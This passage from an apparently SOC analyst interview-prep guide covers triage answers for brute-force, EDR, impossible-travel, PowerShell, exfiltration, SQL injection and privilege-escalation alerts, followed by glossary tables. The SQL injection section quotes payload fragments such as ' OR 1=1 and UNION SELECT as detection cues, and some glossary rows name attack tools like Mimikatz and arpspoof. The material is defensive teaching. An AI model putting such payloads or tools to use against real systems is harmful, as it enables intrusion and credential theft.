    *   **Volumetric Response:** For volumetric attacks, I rely on upstream cloud scrubbing or ISP blackholing.
    *   **Layer 7 Response:** For Layer 7 attacks, I deploy strict WAF rate-limiting, block malicious User-Agents, implement geoblocking, and continuously monitor application health.

### Brute Force & Spray

!!! note "What is a Brute Force / Password Spray Attack?"
    A **Brute Force** attack is when an attacker tries hundreds or thousands of passwords against a *single* user account very quickly. A **Password Spray** is when an attacker tries just a few common passwords against *many* different accounts simultaneously to avoid triggering lockout policies.

##### What to check (SOC L1):
*   **Alert Type & Severity** (Low/Medium/High/Critical)
*   **Timestamp** of the event
*   **Source IP & Destination IP**
*   **Username** & **Affected System / Hostname**
*   How many failed attempts happened in a short time?
*   Did the attacker eventually get a "Successful Login"?

##### Interview Answer

**Q: How do you handle a brute-force attack?**

When a brute-force alert is triggered, I first **review the authentication logs** to check details such as the source IP address, targeted username, number of login attempts, and timestamp.

Then I perform **initial triage** by checking whether there are multiple failed login attempts within a short time. I also verify whether the attempts are coming from the same IP address or from multiple IPs, which may indicate **password spraying**.

Next, I **investigate further** by analyzing authentication logs and checking if the login attempts are coming from unusual geographic locations or suspicious networks. I also check the **IP reputation** using threat intelligence sources.

If the activity is confirmed as a brute-force attack, I take **containment actions**, such as blocking the malicious IP address, locking or disabling the targeted account, and enforcing account lockout policies.

After that, I **escalate the incident** to the L2 team with details such as the attacking IP address, targeted accounts, number of login attempts, and investigation findings.

Finally, I **document the incident properly** in the ticketing system with all the analysis and actions taken.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Triage:** I analyze authentication logs for multiple failed login attempts.
    *   **Investigate:** I check the source IP, targeted accounts, and verify the IP reputation.
    *   **Contain & Escalate:** If confirmed as a brute-force or spray attack, I block the attacking IP, secure the affected account, escalate to L2, and document the incident.

### CrowdStrike (EDR) Alert

!!! note "What is a CrowdStrike Alert?"
    CrowdStrike Falcon is an industry-leading EDR platform. An alert here usually indicates advanced endpoint threats like fileless malware, credential dumping (Mimikatz), lateral movement, or ransomware executing on a host.

##### What to check (SOC L1):
*   **Alert Type & Severity** (Low/Medium/High/Critical)
*   **Timestamp** of the event
*   **Source IP & Destination IP** (If a network connection was made)
*   **Username** & **Affected System / Hostname**
*   The specific file, process, or IOA that CrowdStrike flagged
*   Did CrowdStrike already block or automatically quarantine the threat?

##### Interview Answer

**Q: How do you handle a CrowdStrike EDR alert?**

When a CrowdStrike alert triggers, my first step is to open the Falcon console and **review the alert details**. I check the severity, the affected hostname, the specific user logged in, and the exact Indicator of Attack (IOA) that caused the detection.

Next, I **dive into the Process Tree**. This is critical. I trace the execution backward to see the parent process (for example, did Microsoft Word launch PowerShell?), and analyze the command-line parameters to understand exactly what the script or binary was trying to do. If it reached out to an external IP, I grab that IP and check its reputation on VirusTotal.

If the activity is confirmed as malicious, I immediately use CrowdStrike's **Network Containment feature** to isolate the host. This cuts the machine off from the corporate network while leaving a secure tunnel open for me to continue forensic analysis via the Real Time Response (RTR) shell.

After containment, I take **remediation steps** like killing the malicious process or deleting the dropped payload. I then gather all artifacts, process trees, and IOCs.

Finally, I **escalate the findings** cleanly to the incident response team and document the entire investigation timeline inside the ticketing system.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Triage:** I review the Falcon console for severity and the specific Indicator of Attack (IOA).
    *   **Investigate:** I extensively analyze the process tree and command-line arguments to understand the root cause.
    *   **Contain & Escalate:** If malicious, I instantly initiate Network Containment via CrowdStrike, kill the process, and escalate all IOCs to the IR team while documenting the ticket.

### Impossible Travel

!!! note "What is Impossible Travel?"
    An impossible travel alert fires when a user authenticates from two geographically distant locations in an impossibly short timeframe (e.g., logging in from New York, then logging in from Moscow 5 minutes later). It strongly indicates a compromised password or stolen session token.

##### What to check (SOC L1):
*   **Alert Type & Severity** (Low/Medium/High/Critical)
*   **Timestamp** of the event (Check the exact time difference)
*   **Source IPs** (The two different geographic locations)
*   **Username** & **Affected System / Hostname**
*   Is the user traveling, or currently using a corporate VPN?
*   Did both logins successfully pass Multi-Factor Authentication (MFA)?

##### Interview Answer

**Q: How do you handle an impossible travel alert?**

When an impossible travel alert triggers, I first **review the cloud identity logs** (like Azure AD) to check the two source IP addresses, their geographic locations, and the exact time difference between the logins.

Next, I **check the context** of the logins. Are the IP addresses known Corporate VPN endpoints or Zscaler nodes? I also review the User-Agent strings to see if the device or browser radically changed between the logins. Most importantly, I check if **either login successfully bypassed MFA**. I may also check with the user directly via Slack if they are traveling or using a personal VPN.

If I confirm the logins are not from a legitimate VPN and one of them is truly malicious, I treat it as a **compromised account**.

For **containment**, I immediately disable the user account in Active Directory, revoke all active session tokens to kick the attacker out, and force a mandatory password reset.

Finally, I **escalate the incident** to L2 to check the user's email forwarding rules and OneDrive access logs to ensure no data was stolen, and thoroughly document the response in the ticket.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Triage:** I review the identity logs to check the source IPs, geographic locations, exact time difference, and MFA status.
    *   **Investigate:** I rule out legitimate VPN usage or proxy routing by the employee.
    *   **Contain & Escalate:** If confirmed as a compromised account, I disable the user, revoke active sessions, force an immediate password reset, and investigate for any exfiltrated data.

### Suspicious PowerShell

!!! note "What is Suspicious PowerShell?"
    Attackers frequently use PowerShell (a built-in Windows admin tool) to execute malicious commands purely in memory, avoiding writing malware files to the disk. This is known as "Living off the Land."

##### What to check (SOC L1):
*   **Alert Type & Severity** (Low/Medium/High/Critical)
*   **Timestamp** of the event
*   **Source IP & Destination IP** (Did PowerShell try to download something?)
*   **Username** & **Affected System / Hostname**
*   The specific PowerShell command that was executed
*   Is the command completely unreadable (e.g., Base64 encoded gibberish)?
*   Did PowerShell open automatically after the user opened a Word document?

##### Interview Answer

**Q: How do you handle a suspicious PowerShell alert?**

When an EDR or SIEM alert triggers for suspicious PowerShell, I first **look at the process tree** to identify the parent process. If I see Microsoft Word or Excel launching PowerShell, that is a massive red flag indicating a malicious macro.

Next, I **analyze the command-line arguments**. Attackers often use flags like `-WindowStyle Hidden` and `-ExecutionPolicy Bypass`. If the script is Base64 encoded using the `-enc` flag, I extract the string and use a tool like CyberChef to **decode it** and read the actual payload.

I also check if PowerShell initiated any **outbound network connections** to download a secondary payload or communicate with a Command & Control IP. 

If the script is malicious, I immediately **isolate the infected host** using EDR network containment to sever the attacker's access.

After containment, I **escalate the decoded payload**, the C2 IP addresses, and the process tree to the IR team for deep analysis, and document all IOCs and my containment steps in the ticketing system.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Triage:** I heavily review the process tree to see exactly what parent process launched PowerShell.
    *   **Investigate:** I extract and decode any Base64 encoded commands and analyze the raw payload for malicious intent.
    *   **Contain & Escalate:** If confirmed malicious, I isolate the host via EDR, escalate the decoded IOCs to L2, and document the incident.

### Data Exfiltration

!!! note "What is Data Exfiltration?"
    Data Exfiltration is the unauthorised transfer of sensitive corporate data (like PII, source code, or financial records) out of the network to external storage (like Mega, Dropbox) or via an attacker's C2 channel.

##### What to check (SOC L1):
*   **Alert Type & Severity** (Low/Medium/High/Critical)
*   **Timestamp** of the event
*   **Source IP** (User's laptop) & **Destination IP** (e.g., Dropbox, Mega)
*   **Username** & **Affected System / Hostname**
*   Exactly how much data was uploaded (e.g., 5GB)?
*   Is this normal behavior for this person's job role?

##### Interview Answer

**Q: How do you handle a Data Exfiltration alert?**

When a Data Exfiltration or DLP alert triggers, I first **check the firewall or proxy logs** to determine the source host, the logged-in user, and the exact volume of data leaving the network. I also identify the destination domain or IP address to see if it's a known risky file-sharing site.

Next, I **investigate the context**. Is this a normal business process, like marketing uploading a video, or is this an anomalous 10GB transfer at 3 AM to an unknown server? I check endpoint logs to see what specific files were accessed or zipped up before the transfer.

If the transfer is unauthorised and confirmed malicious (either an insider threat or compromised host), I immediately **contain the threat** by blocking the destination IP on the corporate firewall and isolating the source host via EDR to halt any ongoing transfer.

Following containment, I aggressively **escalate the incident** to the Legal, HR, and Incident Response teams because data loss has massive regulatory compliance implications. 

Finally, I **document the exact volume of data**, the destination, the user involved, and the containment actions in the ticketing system.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Triage:** I review proxy and firewall logs to determine the specific user, the volume of data transferred, and the external destination.
    *   **Investigate:** I check endpoint logs to see if specific files were zipped or bulk accessed before the transfer.
    *   **Contain & Escalate:** If unauthorized, I block the destination IP on the firewall, isolate the host, and critically escalate to Legal and IR due to severe data breach implications.

### SQL Injection (WAF)

!!! note "What is SQL Injection (SQLi)?"
    SQL Injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Alerts usually fire on the Web Application Firewall (WAF) when malicious SQL characters (`'`, `1=1`, `UNION`) are detected in an HTTP GET/POST request.

##### What to check (SOC L1):
*   **Alert Type & Severity** (Low/Medium/High/Critical)
*   **Timestamp** of the event
*   **Source IP** (Attacker) & **Destination IP** (Web Server)
*   **Targeted URL path**
*   The exact attack payload (Did they type `' OR 1=1`?)
*   Did the WAF block the request automatically?
*   Did the website server reply with a 500 Error (failed) or 200 OK (success)?

##### Interview Answer

**Q: How do you handle a SQL Injection alert from the WAF?**

When a SQL Injection alert triggers, I first **review the WAF logs** to check the source IP, the exact malicious payload injected into the web request, the targeted URI path, and most importantly, whether the WAF successfully 'Blocked' the payload or merely 'Alerted' on it.

Next, I look at the **HTTP response code** returned by the backend web server. If I see a 500 Internal Server error, the payload likely broke the SQL syntax, meaning the app is vulnerable but the attack failed. If I see a 200 OK with an unusually large response size, the attacker may have successfully dumped the database using a `UNION SELECT` attack.

If the WAF missed it and the payload hit the backend, I immediately coordinate with the database team to **check the SQL execution logs** and determine if any sensitive data was actually returned to the attacker.

For **containment**, if the WAF was only holding in 'Monitor' mode, I immediately switch it to 'Blocking' mode for that specific signature. I then dynamically block the attacker's source IP across the external load balancer.

Finally, I **escalate the vulnerability** to the AppSec team with the raw HTTP logs so they can implement parameterized queries in the vulnerable code, and I document the incident in the ticketing system.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Triage:** I review the WAF logs to see the specific malicious payload and verify if the WAF actually 'Blocked' or just 'Monitored' the request.
    *   **Investigate:** I analyze the backend HTTP response code and database logs to verify if a database dump actually succeeded.
    *   **Contain & Escalate:** If the app is vulnerable, I block the attacking IP, switch the WAF to blocking mode, and escalate to AppSec to fix the code using parameterized queries.

### Privilege Escalation

!!! note "What is Privilege Escalation?"
    Privilege escalation occurs when a threat actor, having compromised a low-level standard user account, successfully exploits a vulnerability or misconfiguration to gain elevated "Administrator", "root", or "SYSTEM" access.

##### What to check (SOC L1):
*   **Alert Type & Severity** (Low/Medium/High/Critical)
*   **Timestamp** of the event
*   **Source IP & Destination IP**
*   **Username** & **Affected System / Hostname**
*   Did the user recently get added to the `Domain Admins` or `Administrators` group?
*   Did the EDR flag a process suddenly spawning under `NT AUTHORITY\SYSTEM`?

##### Interview Answer

**Q: How do you handle a privilege escalation alert?**

When a privilege escalation alert triggers, I first **review the SIEM or identity logs** to confirm which standard user account was flagged and what specific action caused the alert (like modifying a registry key or adding a user to a highly privileged group).

Next, I **investigate the host** using EDR. I look at the process tree to see if the user exploited a known vulnerability (like running a malicious executable or script that bypasses UAC). I simultaneously check Active Directory logs (Event ID 4728) to verify if the attacker granted themselves permanent admin rights.

If the escalation is confirmed malicious and not a planned IT change, I immediately **contain the threat**. I completely disable the compromised user account in AD and isolate the endpoint via the network to prevent the attacker from moving laterally using their newly acquired admin privileges.

Finally, I **escalate the incident** to the L2 and IR teams with the exact timeline of the escalation, revert the unauthorized group changes in AD, and document the investigation steps in the ticketing system.

---

!!! success "Very Short Version (Easy to Remember)"
    *   **Triage:** I check SIEM logs to see which user escalated and how they did it (e.g., AD group change or exploiting a local service).
    *   **Investigate:** I analyze the EDR process tree and verify Active Directory logs to see the extent of their administrative access.
    *   **Contain & Escalate:** If confirmed malicious, I disable the compromised account immediately, isolate the host, escalate to L2, and document the incident.

</section>

<section class="pdf-guide-section" data-pdf-section-group="1200-quick-points" data-pdf-section-title="⚡ 1200 Quick Points" markdown="1">

## ⚡ 1200 Quick Points

### Core Basics (1–100)

This section is designed for fast revision. Each point gives you a short concept summary with practical context so you can revise quickly before interviews.
{ .page-lead }

!!! note "Organization"
    Points are grouped by primary domain (Fundamentals, Networking, Attacks, Defense, etc.) to keep related concepts together.

---

#### Core essentials (1-25)
*Foundational concepts used daily in security operations.*

| No. | Concept | Interview Answer | Example / Tool |
|---|---|---|---|
| 1 | Cybersecurity | Protecting systems, networks, and data from digital attacks or theft. | Critical infrastructure & privacy. |
| 2 | CIA Triad | Confidentiality, Integrity, and Availability. | Every control must map to one of these. |
| 3 | Confidentiality | Ensuring information is accessible only to authorized users. | AES Encryption, MFA. |
| 4 | Integrity | Ensuring information is accurate and has not been tampered with. | Hashing (SHA-256), Digital Sigs. |
| 5 | Availability | Ensuring systems and data are accessible on demand. | Backups, Redundancy, DDoS prot. |
| 6 | Vulnerability | A weakness or flaw that could be exploited. | Unpatched software. |
| 7 | Threat | A potential event that could cause harm. | Malware, Phishing. |
| 8 | Risk | Likelihood × Impact. The chance of a threat hitting a vulnerability. | Unpatched public server. |
| 9 | Asset | Anything the organization values (Money, Trust, Data). | Source-code or Customer DB. |
| 10 | Attack | An actual attempt to exploit a weakness. | SQLi or Ransomware. |
| 11 | AAA Framework | Authentication, Authorization, and Accounting. | RADIUS, TACACS+, Azure AD. |
| 12 | Authentication | Verifying "Who are you?" | Passwords, Biometrics. |
| 13 | Authorization | Deciding "What are you allowed to do?" | Permissions, RBAC. |
| 14 | Accounting | Recording "What did you actually do?" | Audit logs, session history. |
| 15 | Least Privilege | Giving only the minimum access needed for a job. | HR shouldn't see network configs. |
| 16 | Defense in Depth | Using multiple layers of security. | Firewall + EDR + MFA + Training. |
| 17 | Security Control | A safeguard used to reduce risk. | Encryption, policies, guards. |
| 18 | Physical Control | Barriers like fences, locks, and cameras. | Data center security. |
| 19 | Technical Control | Software/Hardware measures like firewalls. | SIEM, AV, Encryption. |
| 20 | Admin Control | Policies and procedures. | Incident Response Plan, AUP. |
| 21 | Preventive | Stops incidents before they happen. | Firewall, MFA. |
| 22 | Detective | Finds incidents after they occur. | SIEM, logs, motion sensors. |
| 23 | Corrective | Fixes damage after an incident. | Backups, patching. |
| 24 | Deterrent | Discourages attackers (raising the cost of failure). | Warning signs, cameras. |
| 25 | Compensating | An alternative control used when the primary isn't possible. | VLAN isolation for unpatched legacy gear. |

---

#### Networking and infrastructure (26-50)
*The protocols and systems that connect the world.*

| No. | Concept | Interview Answer | Example / Tool |
|---|---|---|---|
| 26 | OSI Model | Layers 1-7 (Physical to Application). | Troubleshooting a web connection. |
| 27 | TCP/IP Model | 4 layers: Link, Internet, Transport, Application. | Underlying protocol of the internet. |
| 28 | IP Address | Unique identifier for a device on a network. | IPv4 and IPv6. |
| 29 | MAC Address | Physical unique address (burned into the NIC). | Hardware identification. |
| 30 | Port | A logical endpoint for a specific service. | Port 80 (HTTP), 443 (HTTPS), 22 (SSH). |
| 31 | Firewall | Filters traffic based on rules. | Palo Alto, Fortinet. |
| 32 | VPN | Encrypted tunnel over an untrusted network. | Safe remote work. |
| 33 | Proxy | Intermediary server between client and destination. | Filtering web content. |
| 34 | IDS | Passive intrusion detection and alerting. | Snort, Zeek. |
| 35 | IPS | Active intrusion prevention and blocking. | Cisco Firepower. |
| 36 | DMZ | Isolated segment for public-facing servers. | Protecting the internal network from web servers. |
| 37 | VLAN | Logical network separation. | Separating Guest Wi-Fi from Prod. |
| 38 | NAC | Ensures only authorized/healthy devices connect. | Port security on switches. |
| 39 | Air Gap | Physical isolation from the internet. | Nuclear or military control systems. |
| 40 | DNS | Translates names to IP addresses. | google.com to 142.250... |
| 41 | DHCP | Automatically assigns IP addresses to devices. | DORA process. |
| 42 | Default Gateway | The router that traffic takes to leave the subnet. | Routing traffic to the internet. |
| 43 | Subnet Mask | Defines which part of an IP is the network vs host. | 255.255.255.0. |
| 44 | ICMP | Protocol used for diagnostics (ping/traceroute). | Troubleshooting network connectivity. |
| 45 | SSL/TLS | Standard for encrypting web traffic. | HTTPS. |
| 46 | HTTP/HTTPS | Protocol for web communication. | Ports 80 and 443. |
| 47 | SSH | Secure remote command-line access. | Managing Linux servers remotely. |
| 48 | RDP | Remote desktop protocol for Windows. | Port 3389. |
| 49 | FTP/SFTP | File transfer protocol (Symmetric/Secure). | Ports 21 and 22. |
| 50 | SNMP | Managing and monitoring network devices. | Getting status from a router. |

---

#### Attack and malware (51-75)
*The weapons and tactics of the adversary.*

| No. | Concept | Interview Answer | Example / Tool |
|---|---|---|---|
| 51 | Malware | General "Malicious Software." | Viruses, Worms, Trojans. |
| 52 | Virus | Replicates only when a user runs the file. | Attaches to an .exe. |
| 53 | Worm | Self-replicates and spreads automatically across networks. | WannaCry. |
| 54 | Trojan | Disguises itself as useful software to trick users. | Zeus banking trojan. |
| 55 | Ransomware | Encrypts files for a payout. | Colonial Pipeline breach. |
| 56 | Spyware | Secretly monitors user activity. | Keyloggers, screen monitors. |
| 57 | Rootkit | Hides deep in the OS to maintain admin access. | Hiding from Task Manager. |
| 58 | Botnet | Network of infected "zombie" computers. | Mirai botnet. |
| 59 | Phishing | Social engineering via deceptive electronic messages. | Fake password reset emails. |
| 60 | Smishing/Vishing | Phishing via SMS or Voice/Phone calls. | "Your bank account is locked" SMS. |
| 61 | Social Engineering | Attacking the "Human element" to gain access. | Pretexting, tailgating. |
| 62 | SQL Injection | Inserting malicious SQL code into web forms. | Bypassing a database login. |
| 63 | XSS | Injecting client-side scripts into web pages. | Stealing session cookies. |
| 64 | CSRF | Forcing a user to perform an unwanted action. | Attacker "clicks" a delete button for you. |
| 65 | DDoS | Overwhelming a target with massive traffic. | Flooding a server to take it offline. |
| 66 | Man-in-the-Middle | Intercepting data between two parties. | ARP poisoning on public Wi-Fi. |
| 67 | Brute Force | Trying every password combination. | Script guessing a 4-digit PIN. |
| 68 | Dictionary Attack | Brute force using a list of common words. | rockyou.txt wordlist. |
| 69 | Rainbow Table | Pre-computed hash table to crack passwords fast. | Cracking weak MD5 hashes. |
| 70 | Salt | Adding random data to passwords before hashing. | Preventing rainbow table attacks. |
| 71 | Zero-Day | Exploiting a flaw before a patch exists. | Log4Shell. |
| 72 | Exploit | The code or method used to take advantage of a flaw. | Script used to gain access. |
| 73 | Payload | The "part" of the exploit that performs the harm. | The ransomware that runs after access. |
| 74 | Backdoor | A hidden method of bypassing security. | SSH access the attacker leaves behind. |
| 75 | Logic Bomb | Malicious code triggered by a specific event/time. | Admin deleting files if they get fired. |

---

#### Response and defense (76-100)
*The strategy and operations to stop the hunt.*

| No. | Concept | Interview Answer | Example / Tool |
|---|---|---|---|
| 76 | SIEM | Centralized log correlation and alerting platform. | Splunk, QRadar. |
| 77 | SOC | Team that monitors and responds to alerts. | Triage and investigation. |
| 78 | EDR | Monitoring and responding to behavior on hosts. | CrowdStrike, SentinelOne. |
| 79 | DLP | Preventing sensitive data leaks. | Blocking credit card uploads. |
| 80 | IAM | Managing digital identities and permissions. | Okta, Azure AD. |
| 81 | SSO | Single login for multiple apps. | Logging in once for HR and Email. |
| 82 | MFA | Password + something you have/are. | Duo, YubiKey. |
| 83 | Vulnerability Mgmt | Identifying, prioritizing, and fixing flaws. | Nessus, Qualys. |
| 84 | Patch Mgmt | Updating software to fix vulnerabilities. | WSUS, Jamf. |
| 85 | Incident Response | Lifecycle of handling a security breach. | PICERL model (SANS). |
| 86 | Forensic Image | Bit-for-bit copy of a storage device for evidence. | Magnet AXIOM, EnCase. |
| 87 | Honeypot | Decoy system to distract/study attackers. | T-Pot modern honeypot. |
| 88 | BCP | Keeping the business running during disasters. | Disaster recovery plan. |
| 89 | RTO | Goal for how fast a system returns to normal. | "Back up in 2 hours." |
| 90 | RPO | Goal for how much data loss is acceptable. | "Lose no more than 1 hour." |
| 91 | SOC 2 | Trust report for service organizations. | Type I vs Type II. |
| 92 | ISO 27001 | International standard for security systems. | Maturity through certification. |
| 93 | NIST CSF | Voluntary framework for managing security risk. | Identify, Protect, Detect... |
| 94 | GDPR | EU privacy and data protection regulation. | Users can request data deletion. |
| 95 | HIPAA | US health data protection law. | Protecting medical records. |
| 96 | PCI DSS | Standard for payment card security. | Encrypting card data. |
| 97 | Blue Team | Internal defensive security group. | SOC Analysts. |
| 98 | Red Team | Internal/External offensive group (simulation). | Pentesting. |
| 99 | Purple Team | Collaborative Red + Blue engagement. | Tuning SIEM based on attacks. |
| 100 | Security Architecture | Building security into the foundation. | Zero Trust, SASE. |

*(Points 101-1200 continue in the quick-point categories. Use the navigation to move through each domain.)*

### Identity & Auth (101–200)

!!! note "Format: Point & Concept → Interview Answer → Example / Tool"
    Each row gives you a clean, speakable interview answer plus a real-world example or tool.

---

#### 🔐 Identity, Access & Authentication (101–140)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|-----------------|----------------|
| 101. Identity | A verifiable digital representation of a person, service, or device used to authenticate and control access. | User account in Entra ID or a service account with a JWT |
| 102. Credential | Any piece of evidence used to prove identity — password, token, certificate, key, or biometric. | Username + password; FIDO2 key; client TLS certificate |
| 103. Password Policy | A rule set defining the minimum length, complexity, rotation, and restrictions that make passwords harder to guess. | Policy requiring 14+ characters and blocking breached values |
| 104. Password Hashing | Storing passwords as one-way cryptographic digests so the plaintext is never held in readable form. | Argon2id or bcrypt with per-user salt in the user database |
| 105. Multi-Factor Authentication | Requiring two or more independent factors — something you know, have, or are — to verify identity. | Password plus Microsoft Authenticator TOTP or YubiKey |
| 106. Single Sign-On | Authenticating once to gain access to multiple connected applications without re-entering credentials each time. | Okta SSO letting staff access Slack, GitHub, and AWS in one login |
| 107. OAuth 2.0 | An authorisation framework that lets one application act on a user's behalf without exposing the user's password. | "Sign in with Google" giving an app access to calendar data |
| 108. SAML 2.0 | An XML-based identity federation standard that passes authenticated identity between a provider and an application. | Enterprise IdP passing a signed assertion to a Salesforce login |
| 109. OpenID Connect | An identity layer built on top of OAuth 2.0 that returns a verifiable ID token containing user profile claims. | Microsoft Entra ID issuing an OIDC token for a web app login |
| 110. JWT | JSON Web Token — a compact, signed token used to prove identity or carry authorisation claims between systems. | API returns a signed JWT; the client sends it in every request |
| 111. RBAC | Role-Based Access Control — permissions tied to a job role, not an individual user. | Admin, analyst, and read-only viewer roles in a cloud console |
| 112. ABAC | Attribute-Based Access Control — access granted based on user attributes, device state, time, or location. | Allow access to payroll only from managed devices 9–5 on weekdays |
| 113. Privileged Account | An account with elevated rights — local admin, domain admin, root, or service account — that carries greater risk if compromised. | Domain admin used only through a PAM vault with session recording |
| 114. Privilege Escalation | An attacker gaining higher access than their initial foothold, moving from user to admin or from local to domain. | Token impersonation or kernel exploit raising user to SYSTEM |
| 115. Just-in-Time Access | Granting elevated access only when needed for a specific task and revoking it automatically afterwards. | CyberArk issuing a 60-minute admin session that expires automatically |
| 116. Access Review | Periodic audit of who has access to what to ensure permissions stay accurate and least-privilege is maintained. | Quarterly Entra ID access review removing stale role assignments |
| 117. Service Account | A non-human identity used by applications, scripts, or automated processes to authenticate to systems or APIs. | SQL server service account with read-only access to one database |
| 118. API Key | A shared secret token used to authenticate programmatic access to an API without user interaction. | AWS access key used by a script — should be rotated and scoped |
| 119. Session Token | A temporary credential issued after authentication that represents an active session. | HTTPOnly secure cookie holding a session ID valid for 24 hours |
| 120. Session Hijacking | Stealing a valid session token to impersonate an authenticated user without knowing their password. | Attacker copies a browser cookie and replays it to gain access |
| 121. Brute Force | Systematically trying every possible credential combination until the correct one is found. | Script trying all four-digit PINs against an admin portal |
| 122. Credential Stuffing | Using username-password pairs leaked from one breach to try logging in to other services. | Attacker tests 500,000 LinkedIn credentials against Gmail and PayPal |
| 123. Account Lockout | Automatically blocking sign-in after a set number of failed attempts to slow brute-force attacks. | Five failures triggers a 15-minute lockout on the portal |
| 124. CAPTCHA | A challenge designed to distinguish humans from bots, slowing automated credential attacks. | Google reCAPTCHA on a login form preventing automated spraying |
| 125. Zero Trust | Security model that removes implicit trust — every access request is verified regardless of network location. | Conditional Access checking device compliance before every login |
| 126. Least Privilege | Granting only the minimum access needed for a role, and nothing more. | Developer gets read access to logs but cannot modify DB records |
| 127. Need to Know | Principle that sensitive information is only shared with people who genuinely require it for their specific task. | Only the IR team can view forensic images during an investigation |
| 128. Separation of Duties | Splitting a sensitive process across two or more people so no single individual can abuse it alone. | One person requests a payment; a different person approves it |
| 129. Account Takeover | When an attacker gains full control of a legitimate user account, usually through credential theft or phishing. | Attacker logs in with Magecart-stolen credentials and changes email |
| 130. Identity Theft | Stealing personal information to impersonate someone for financial gain or access to their accounts. | Fraudster uses stolen SSN to open a credit card account |
| 131. Impersonation | Pretending to be another person, brand, or system to trick someone into sharing information or granting access. | Fake IT helpdesk call asking for password reset confirmation |
| 132. PAM | Privileged Access Management — securing, monitoring, and minimising the use of high-risk administrative accounts. | CyberArk vaulting credentials; Delinea recording all admin sessions |
| 133. IAM | Identity and Access Management — the system that governs digital identities, credentials, permissions, and lifecycle. | Okta Workforce Identity managing SSO, MFA, and provisioning |
| 134. Directory Service | Centralised system that stores identity, group, and policy data for managing users and computers. | Active Directory; LDAP; Apple Open Directory |
| 135. Active Directory | Microsoft's directory service that manages Windows users, computers, groups, and policy across a domain. | Group Policy deploying security settings to all domain machines |
| 136. LDAP | Protocol used to query and modify directory entries on Active Directory or other directory services. | Application authenticating users against corporate LDAP on port 389 |
| 137. Kerberos | Authentication protocol used in Active Directory that issues encrypted tickets instead of passing passwords. | User logs in → gets a TGT → exchanges it for a service ticket |
| 138. Kerberoasting | Extracting Kerberos service tickets for offline cracking to recover service-account passwords. | BloodHound identifies a spn-set service account; GetUserSPNs harvests tickets |
| 139. Pass-the-Hash | Replaying a captured NTLM password hash to authenticate as another user without knowing the plaintext. | Mimikatz extracts hash; attacker laterally authenticates to SMB shares |
| 140. Golden Ticket | A forged Kerberos TGT created using the KRBTGT account hash, granting persistent domain-wide access. | Attacker forges 10-year TGT with any SID; effective until KRBTGT reset |

---

#### 🌐 Network Protocols & Controls (141–170)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|-----------------|----------------|
| 141. TCP Three-Way Handshake | SYN → SYN-ACK → ACK — the connection establishment process before data is sent over TCP. | Every browser HTTP request starts with this exchange |
| 142. UDP | Connectionless transport protocol — fast but no delivery guarantee or ordering, suitable for real-time data. | DNS queries, VoIP, video streaming all use UDP |
| 143. ICMP | Control protocol used for diagnostics — ping uses ICMP echo request and reply. | `ping 8.8.8.8` tests reachability; `traceroute` maps hops |
| 144. DNS | Translates domain names into IP addresses — the phone book of the internet. | `nslookup google.com` resolves to 142.250.x.x |
| 145. DNSSEC | Extension that digitally signs DNS records to prevent tampering and cache poisoning attacks. | Signing a zone so resolvers reject forged DNS responses |
| 146. HTTPS | HTTP over TLS — encrypts web traffic so it cannot be read or tampered with in transit. | Browser shows padlock; traffic encrypted from client to server |
| 147. TLS Handshake | Client and server negotiate cipher suite and exchange keys to establish an encrypted session. | ClientHello → ServerHello → Certificate → Key Exchange → Finished |
| 148. Certificate Authority | Trusted entity that issues and signs digital certificates, establishing a verifiable chain of trust. | Let's Encrypt, DigiCert, GlobalSign issuing web server certificates |
| 149. NAT | Network Address Translation — maps private IP addresses to public ones allowing multiple devices to share one IP. | Home router translating 192.168.1.x to a single public IP |
| 150. Routing | The process of forwarding packets between networks based on IP destination using routing tables. | BGP between ISPs; OSPF within an enterprise network |
| 151. BGP | Border Gateway Protocol — the routing protocol that exchanges routes between autonomous systems on the internet. | BGP hijacking caused Amazon Route 53 DNS traffic rerouting in 2018 |
| 152. ARP | Address Resolution Protocol — maps an IP address to a MAC address on a local network. | `arp -a` shows cached IP-to-MAC mappings on a host |
| 153. ARP Poisoning | Sending fake ARP replies to link an attacker's MAC to another host's IP, enabling MITM attacks. | `arpspoof` tool pointing gateway traffic through attacker machine |
| 154. VLAN | Virtual LAN — logical network segmentation on a switch, separating traffic without physical cabling. | Guest Wi-Fi isolated from production servers on the same switch |
| 155. DMZ | Demilitarised Zone — network segment for public-facing servers, isolated from the internal corporate network. | Web server in DMZ; database server behind second firewall inside |
| 156. Proxy Server | Intermediary that forwards requests on behalf of clients, enabling filtering, caching, and anonymity. | Zscaler Internet Access as a cloud proxy inspecting all web traffic |
| 157. Reverse Proxy | Server-side proxy that receives client requests and forwards them to backend servers, hiding their addresses. | nginx or AWS ALB distributing HTTPS traffic to app containers |
| 158. Load Balancer | Distributes incoming traffic across multiple backend servers to prevent overload and improve availability. | AWS Application Load Balancer balancing HTTPS across three EC2s |
| 159. CDN | Content Delivery Network — distributes content from edge servers near users to reduce latency and absorb DDoS. | Cloudflare CDN caching static assets and absorbing volumetric attacks |
| 160. BGP Hijacking | Attacker announces a more-specific route to redirect internet traffic through their infrastructure. | Pakistan Telecom accidentally hijacking YouTube's prefix in 2008 |
| 161. NTP | Network Time Protocol — synchronises clocks across systems, which is critical for accurate log correlation. | Kerberos requires clocks within 5 minutes to prevent replay attacks |
| 162. SMTP | Simple Mail Transfer Protocol — used to send email between servers on port 25 (or 587 with auth). | Mail server relaying email; SMTPS encrypts with TLS |
| 163. IMAP/POP3 | Protocols for retrieving email — IMAP syncs mailbox server-side, POP3 downloads and deletes. | Outlook using IMAP to sync folders across devices |
| 164. SFTP | Secure file transfer over SSH — encrypted alternative to plain FTP, running on port 22. | Admin uploading config files to a Linux server securely |
| 165. SMB | Server Message Block — Windows file-sharing protocol; exploited by EternalBlue in WannaCry. | Disabling SMBv1 eliminates the WannaCry attack vector |
| 166. RDP | Remote Desktop Protocol — Windows remote access on port 3389; common attack target when exposed online. | Brute-forcing exposed RDP is a primary ransomware initial access method |
| 167. SSH | Secure Shell — encrypted remote command-line access, default port 22. | `ssh -i key.pem ec2-user@10.0.0.1` connecting to a Linux server |
